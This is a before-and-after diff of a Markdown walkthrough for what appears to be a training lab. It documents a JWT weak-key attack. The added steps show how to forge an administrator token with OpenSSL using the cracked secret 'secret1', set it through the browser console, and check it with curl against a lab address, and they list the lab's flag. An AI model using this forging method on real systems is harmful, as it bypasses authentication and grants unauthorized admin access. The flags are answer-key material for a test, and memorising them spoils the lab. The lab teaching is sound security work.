

Before and after one commit to phwrscr1pt/Hackdaybc, a Markdown page: docs/walkthrough-sqli-jwt.md, the part around one of its changes. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Fix JWT Weak Key walkthrough with correct cookie name
- Cookie name: auth_token_secure (not auth_token)
- Added OpenSSL method for creating signed tokens
- Added working forged token for verification
- Added summary table with all key info
- Updated Quick Verification Commands with both JWT labs

Co-Authored-By: Claude Opus 4.5 <noreply@anthropic.com>

````diff
--- a/docs/walkthrough-sqli-jwt.md
+++ b/docs/walkthrough-sqli-jwt.md
@@ -826,13 +826,63 @@ Or use https://jwt.io:
 
 ---
 
-#### Step 5: Access admin panel
+#### Step 5: Create forged token with OpenSSL (alternative)
 
-1. Set the forged token as `auth_token` cookie
+If Python is not available, use OpenSSL:
+
+```bash
+# Header and Payload
+HEADER='{"alg":"HS256","typ":"JWT"}'
+HEADER_B64=$(echo -n "$HEADER" | base64 -w0 | tr '+' '-' | tr '/' '_' | tr -d '=')
+
+PAYLOAD='{"sub":2,"user":"john","role":"administrator","email":"john@leaguesofcode.com","iat":1772825267,"exp":1872828867}'
+PAYLOAD_B64=$(echo -n "$PAYLOAD" | base64 -w0 | tr '+' '-' | tr '/' '_' | tr -d '=')
+
+# Sign with secret1
+MESSAGE="${HEADER_B64}.${PAYLOAD_B64}"
+SIGNATURE=$(echo -n "$MESSAGE" | openssl dgst -sha256 -hmac "secret1" -binary | base64 -w0 | tr '+' '-' | tr '/' '_' | tr -d '=')
+
+# Full token
+echo "${MESSAGE}.${SIGNATURE}"
+```
+
+---
+
+#### Step 6: Access admin panel
+
+**Important:** The cookie name for this lab is `auth_token_secure` (not `auth_token`)
+
+1. Set the forged token as `auth_token_secure` cookie
 2. Visit http://10.10.61.221/account/admin.php
 3. You should see the admin dashboard
 
+**Browser Console method:**
+```javascript
+document.cookie = "auth_token_secure=YOUR_FORGED_TOKEN; path=/";
+location.href = "/account/admin.php";
+```
+
+**Curl verification:**
+```bash
+FORGED_TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOjIsInVzZXIiOiJqb2huIiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJlbWFpbCI6ImpvaG5AbGVhZ3Vlc29mY29kZS5jb20iLCJpYXQiOjE3NzI4MjUyNjcsImV4cCI6MTg3MjgyODg2N30.V_-bEhkxlhy9LBjlyvcAzrKngLH3-z3tNFC6u8at7uE"
+
+curl -s "http://10.10.61.221/account/admin.php" \
+  -b "auth_token_secure=$FORGED_TOKEN" | grep "JWT_WEAK_KEY_CRACKED"
+```
+
 **Flag:** `JWT_WEAK_KEY_CRACKED_2026`
+
+---
+
+#### Summary - JWT Weak Key Attack
+
+| Item | Value |
+|------|-------|
+| Lab URL | `/account/secure.php` |
+| Admin URL | `/account/admin.php` |
+| Cookie Name | `auth_token_secure` |
+| Secret Key | `secret1` |
+| Flag | `JWT_WEAK_KEY_CRACKED_2026` |
 
 ---
 
````
Also changed, not shown: other parts of docs/walkthrough-sqli-jwt.md (+8 -3 lines).
